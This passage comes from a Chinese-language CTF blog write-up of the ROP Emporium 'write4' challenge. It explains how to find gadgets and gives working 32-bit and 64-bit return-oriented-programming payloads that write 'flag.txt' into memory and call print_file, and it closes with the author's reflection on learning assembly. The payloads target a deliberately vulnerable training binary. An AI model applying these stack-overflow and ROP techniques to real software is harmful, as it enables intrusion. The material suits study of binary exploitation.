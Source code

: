 确定写入位置之后，就直接找一个gadget控制edi就行了，这里还发现这个gadget非常巧妙，它第二个pop的是ebp，刚好串上了，不用其他方法控制ebp了。

![](write4-4.png)

两个gadget都找到了，那么只需要分两次写入`flag`和`.txt`就完成了目标字符串写入内存，`print_file`函数的调用和前几题相同。

构造payload：

```
gadget_1 = 0x080485aa
#控制edi和ebp的内容
gadget_2 = 0x08048543
#mov指令将字符串写入内存
addr_bss_1 = 0x0804A020
#写入“flag”的地址
addr_bss_2 = 0x0804A024
#写入“.txt”的地址
print_file = sys.plt.print_file
#print_file函数的地址
payload = b'A'* 40  + b'B' * 4 + p32(gadget_1)  + p32(addr_bss_1) + b'flag' + p32(gadget_2) + p32(gadget_1)  + p32(addr_bss_2) + b'.txt' + p32(gadget_2) + p32(print_file) + p32(0) + p32(addr_bss_1)
```

##### 64位

64位也是差不多的思路，找一个`mov [reg] reg`的gadget把字符串写入内存之后调用print_file函数就可以了，而且64位的寄存器是8个字节，可以一次写完`flag.txt`。

因为思路差不多，所以直接找gadget，不过64位需要找3个gadget，一个是控制mov相关寄存器的指令，一个是mov指令，还有一个传参的指令。这里发现有两个符合我们需要的gadget，但是edi参数没有合适的gadget控制，所以我们选取第二个。

![](write4-5.png)

构造payload：

```
gadget_1 = 0x400690
#控制mov寄存器的取值
gadget_2 = 0x400628
#mov指令
gadget_3 = 0x400693
#pop rdi传参
addr_bss = 0x601038
#bss段起始位置
payload = b'A'* 32 + b'B'* 8 + p64(gadget_1) + p64(addr_bss) + b'flag.txt' + p64(gadget_2) + p64(gadget_3) + p64(addr_bss) + p64(print_file) 
```



### 小结

做到这也算是十窍通了九窍，继续加油吧。提供场外援助的人说我做不出来题是因为不知道ROP到底是什么。但是在写博客的时候，我发现比这过分多了，不是不知道ROP是什么，而是最基本的对汇编指令的理解都不太到位，虽然我去年看过一次汇编，但是依旧无法融会贯通，比如我不知道eip是用来存储即将执行的程序指令的地址，cpu 依照 eip 的存储内容读取指令并执行；不知道ret 其实是因为将栈顶数据弹出至 eip，所以能控制函数执行，以及解释了为什么能一个gadget接一个gadget的执行，因为每次pop完之后都ret，payload中的下一个地址传给rip。这么一看好像确实也是不懂ROP，但是通过写博客，对很多东西有了更深刻的认知，因为写博客对我来说是一个消化吸收、梳理逻辑、弄清楚之前不懂的点的过程，而且我会想尽量保证博客的准确性，这个时候的我是静下心来去看资料，目标相对也比较明确的。可能博客并没有人会看，但是也是记录自己成长过程的方法，同时还能做一个备忘。

明年见，886！

### 参考文献

[split两种解法](https://aidenpearce369.github.io/binary%20exploitation/2-split/)

[CTF Wiki](https://ctf-wiki.org/pwn/linux/)

[手把手教你栈溢出从入门到放弃（上）](https://paper.seebug.org/271/)

[手把手教你栈溢出从入门到放弃（下）](https://paper.seebug.org/272/#0x30-rop-return-oriented-programming)